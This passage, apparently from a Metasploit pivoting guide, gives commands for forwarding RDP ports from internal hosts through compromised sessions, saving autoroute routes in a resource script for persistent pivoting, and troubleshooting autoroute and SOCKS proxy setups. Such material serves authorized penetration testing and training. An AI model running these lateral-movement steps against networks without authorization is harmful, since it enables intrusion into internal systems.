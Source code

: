 ### Multi-Session Port Forwarding

```bash
# Forward from different internal networks
sessions -i 1
portfwd add -l 3301 -p 3389 -r 172.16.5.19

sessions -i 2
portfwd add -l 3302 -p 3389 -r 10.10.10.50

# Access both via different local ports
```

### Persistent Pivoting

```bash
# Save routes in resource script
echo "use post/multi/manage/autoroute" > pivot.rc
echo "set SESSION 1" >> pivot.rc
echo "set SUBNET 172.16.5.0/23" >> pivot.rc
echo "run" >> pivot.rc

# Load on reconnect
msfconsole -r pivot.rc
```

---

## Troubleshooting

### Autoroute Not Working

```bash
# Verify route added
run autoroute -p

# Check session is alive
sessions -l

# Re-add route if needed
run autoroute -s 172.16.5.0/23

# Flush and re-add
run autoroute -d 172.16.5.0
run autoroute -s 172.16.5.0/23
```

### SOCKS Proxy Issues

```bash
# Verify proxy running
jobs -l

# Check port listening
netstat -tulpn | grep 9050

# Restart SOCKS proxy
jobs -k [job_id]
use auxiliary/server/socks_proxy
set SRVPORT 9050
run -j
```

